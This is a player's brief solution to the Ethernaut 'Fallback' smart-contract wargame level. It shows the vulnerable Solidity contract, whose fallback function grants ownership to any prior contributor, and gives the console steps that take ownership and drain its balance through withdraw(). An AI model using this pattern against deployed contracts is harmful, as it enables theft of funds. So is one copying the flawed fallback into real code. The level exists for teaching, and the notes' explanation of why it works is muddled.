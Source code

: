 pragma solidity ^0.4.18;

import 'zeppelin-solidity/contracts/ownership/Ownable.sol';

contract Fallback is Ownable {

  mapping(address => uint) public contributions;

  function Fallback() public {
    contributions[msg.sender] = 1000 * (1 ether);
  }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    owner.transfer(this.balance);
  }

  function() payable public {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}


to take over ownrship.

because contract owner is the one that contributes more than the amount in the contract.
contract.contribute({value: toWei(0.0009)})

After sending the balance to clain ownership:
contract.send(toWei(0.001))

Contract.withdraw() will return me the balances.